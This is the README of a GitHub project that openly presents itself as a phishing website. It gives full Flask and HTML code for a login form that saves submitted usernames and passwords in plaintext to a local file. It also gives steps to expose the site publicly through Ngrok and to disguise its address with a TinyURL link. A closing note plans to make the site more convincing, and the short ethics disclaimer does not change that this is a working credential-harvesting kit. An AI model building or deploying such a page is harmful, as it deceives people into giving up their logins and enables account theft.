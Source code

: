 # Project: Phishing website using Flask and Ngrok

## Overview
This repository contains a Flask-based website that implements a simple login functionality. The website allows users to submit login credentials through a web interface and processes the data on the backend. The website is deployed online using Ngrok. This project serves as an example on how to gather user information through a malicious web page login form that saves user data into a local text file.

## Features
- **Frontend:** A simple HTML interface for user login.
- **Backend:** Flask website handling routing and processing login credentials.
- **Logging:** Captures and stores submitted login credentials in a local file (`pwned.txt`).
- **Deployment:** Uses Ngrok to expose the Flask website to the internet.

---

## Project Structure
```
project-directory/
├── static/          # CSS, JavaScript, and other static files
├── templates/       # HTML files (index.html, login.html)
├── server.py        # Main Flask website
├── pwned.txt        # File for logging submitted credentials
└── README.md        # Documentation
```

### File Details
- **`index.html`**: The main landing page for the website.
- **`login.html`**: Contains the login form where users can enter their credentials.
- **`server.py`**: Python script for:
  - Rendering the HTML pages.
  - Handling login form submissions.
  - Writing submitted credentials to `pwned.txt`.
- **`pwned.txt`**: Stores the username and password entries submitted by users.

---

## Setup and Installation

### Prerequisites
- Python (3.12 or above)
- Ngrok (to expose the Flask app online)

### Steps
1. Clone the repository:
   ```bash
   git clone https://github.com/elvishaveriku/Phishing_Website_Project.git
   cd phishing_website_project
   ```

2. Install the required Python packages:
   ```bash
   pip install flask
   ```

3. Run the Flask website:
   ```bash
   python server.py
   ```

4. Start Ngrok to expose the website:
   ```bash
   ngrok http --url=badly-climbing-loon.ngrok-free.app 5000
   ```
   Copy the public URL generated by Ngrok.

6. Access the website in your browser using the Ngrok URL.

Default URL is: badly-climbing-loon.ngrok-free.app
We can use Tinyurl to mask the default URL. New URL is: https://tinyurl.com/3dyd3n96

![image](https://github.com/user-attachments/assets/27fe6355-89fa-4787-b2f7-91b7799017e2)

   
7. Entering credentials in the login page.

![image](https://github.com/user-attachments/assets/b7f2113c-ec58-409b-90c5-f09c2c403ac4)


8. After clicking Login" check the newly created "pwned.txt" file in your local machine.

![image](https://github.com/user-attachments/assets/2eae7fa1-34b4-49c4-995d-f79f58ea2775)


---

## Code Highlights

### Flask Routes
- **Index Route (`/`)**:
  Serves the `index.html` page.
  ```python
  @app.route('/')
  def index():
      return render_template('index.html')
  ```

- **Login Page (`/login.html`)**:
  Serves the `login.html` page.
  ```python
  @app.route('/login.html')
  def login():
      return render_template('login.html')
  ```

- **Login Submission (`/login`)**:
  Handles the login form submission and logs credentials.
  ```python
  @app.route('/login', methods=['POST'])
  def handle_login():
      username = request.form.get('username')
      password = request.form.get('password')

      with open('pwned.txt', 'a') as file:
          file.write(f"Username: {username}, Password: {password}\n")

      if username == 'admin' and password == 'password123':
          return jsonify({'message': 'Login successful!'}), 200
      else:
          return jsonify({'message': 'Invalid credentials.'}), 400
  ```
  
---

## Frontend Implementation

### HTML Structure
The frontend consists of two HTML pages: `index.html` and `login.html`. Both are located in the `templates/` directory.

#### `index.html`
A simple landing page with navigation links.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home Page</title>
</head>
<body>
    <header>
        <h1>Welcome to the Web App</h1>
    </header>
    <nav>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/login.html">Login</a></li>
        </ul>
    </nav>
</body>
</html>
```

#### `login.html`
A form for users to submit login credentials.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <header>
        <h1>Login</h1>
    </header>
    <main>
        <form id="loginForm" action="/login" method="POST">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </main>
</body>
</html>
```

---

## Ethical Considerations
Logging sensitive user information is for demonstration purposes only. Do not deploy such functionality in production without proper security measures, including encryption and user consent.

---

## Future Improvements
- Increasing the credibility of the website

---

## Author
[Elvis Haveriku] - Cybersecurity enthusiast and passionate about web technologies and Python programming.

